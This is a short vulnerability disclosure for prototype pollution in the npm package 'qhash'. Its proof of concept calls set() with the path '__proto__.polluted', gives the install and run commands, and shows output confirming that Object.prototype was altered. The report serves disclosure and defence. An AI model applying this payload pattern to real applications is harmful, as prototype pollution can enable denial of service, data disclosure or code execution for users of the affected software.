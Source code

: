 # Description

`qhash` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('qhash')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i qhash # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

